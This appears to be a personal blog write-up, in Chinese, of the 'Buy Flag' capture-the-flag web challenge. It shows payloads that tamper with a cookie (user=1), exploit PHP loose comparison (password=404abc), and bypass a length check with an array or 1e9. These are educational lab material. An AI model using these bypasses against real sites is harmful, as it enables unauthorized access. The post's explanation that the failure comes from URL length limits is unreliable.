 ```yaml
---
title: Buy Flag
date: 2023-10-27T13:02:11+08:00
slug: 71ccb67
tags:
  - MD5
categories:
  - CTF
---
```


之前还是一个新手村门口人的时候打开过，那个时候的无助真的有点好笑。

  

<!--more-->

  

# CUIT Student

一般这种什么都不外露的就先查看页面源代码，所以找到了：

```php

<!--

    ~~~post money and password~~~

if (isset($_POST['password'])) {

    $password = $_POST['password'];

    if (is_numeric($password)) {

        echo "password can't be number</br>";

    }elseif ($password == 404) {

        echo "Password Right!</br>";

    }

}

-->

```

POST传参，目前还用不到。所以我们抓包：

```http

GET /pay.php HTTP/1.1

...

Accept-Language: ja,zh-CN;q=0.9,zh;q=0.8

Cookie: user=0

Connection: close

```

有一个`cookie: user=0`，发送repeater模块，试试修改为1。得到`you are Cuiter`

  

-----

  

# psw can't be number

  

最开始没有注意到这个`is_numeric()`，自信的写404，然后得到了不能是数字的回复。

当时我满脑子？？？？？？？？？

不能是404但是又必须是404？？？？？？？

小小的脑袋塞满了大大的问号。

  

-----

  

不过因为在做这个之前做了Easy MD5，知道了PHP的神秘宇宙规则——在PHP的宇宙里，*不能是404但是又必须是404*完全可以做到。

就是那个PHP弱类型比较。

  

做一个简单的测试

```php

<?php

    $a=404;

    $b='404abc';//进行修改

    //是否相等,目标为true

    $c=var_dump($a==$b);

    //是否是数字，目标为false

    $d=var_dump(is_numeric($b));

    echo $c,$d;

?>  

```

>在 PHP 中，var_dump() 函数主要用于打印变量的相关信息，如类型、值和长度等。它并不直接用于进行布尔值判断。当 var_dump() 函数用于布尔值时，它会输出该布尔值的类型和值。

  

所以构造payload：

```http

password=404abc&money=100000000

```

  

<font color=red>注意是用post的方式传参</font>

  

-----

  

# Nember lenth is too long

  

>当使用 POST 方法向 PHP 文件传递参数时，参数的值通常需要进行 URL 编码。这是为了确保参数值中不包含特殊字符或空格等无效字符，从而避免出现错误。

当尝试将 money 参数的值设置为 100000000 时，由于该值太长，可能会导致 URL 长度超过服务器限制，从而导致请求失败。

  

`password=404abc&money[]=1`——php对字符进行判断的函数存在漏洞，数组可以很好的绕过<br>

  

不过可能是<a href=https://blog.csdn.net/cherrie007/article/details/77473817>`strcmp()`函数漏洞</a>利用

  

-----

  

另外一种是科学记数法：`money=100000000=1e9`

  

----

